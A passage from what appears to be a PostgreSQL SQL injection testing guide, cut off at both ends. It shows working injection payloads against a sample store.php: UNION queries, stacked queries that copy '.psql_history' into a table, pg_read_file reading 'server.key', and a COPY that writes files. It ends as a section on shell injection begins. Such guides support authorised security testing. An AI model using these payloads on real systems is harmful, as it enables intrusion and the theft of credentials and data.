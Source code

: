 `http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Reading from a File

PostgreSQL provides two ways to access a local file:

- `COPY` statement
- `pg_read_file()` internal function (starting from PostgreSQL 8.1)

##### COPY

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the `postgres` user.

###### Example

```sql
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Data should be retrieved by performing a `UNION Query SQL Injection`:

- retrieves the number of rows previously added in `file_store` with `COPY` statement
- retrieves a row at a time with UNION SQL Injection

```sql
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

This function was introduced in `PostgreSQL 8.1` and allows one to read arbitrary files located inside DBMS data directory.

###### Examples

- `SELECT pg_read_file('server.key',0,1000);`

#### Writing to a File

By reverting the COPY statement, we can write to the local file system with the `postgres` user rights

`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with `libc`:
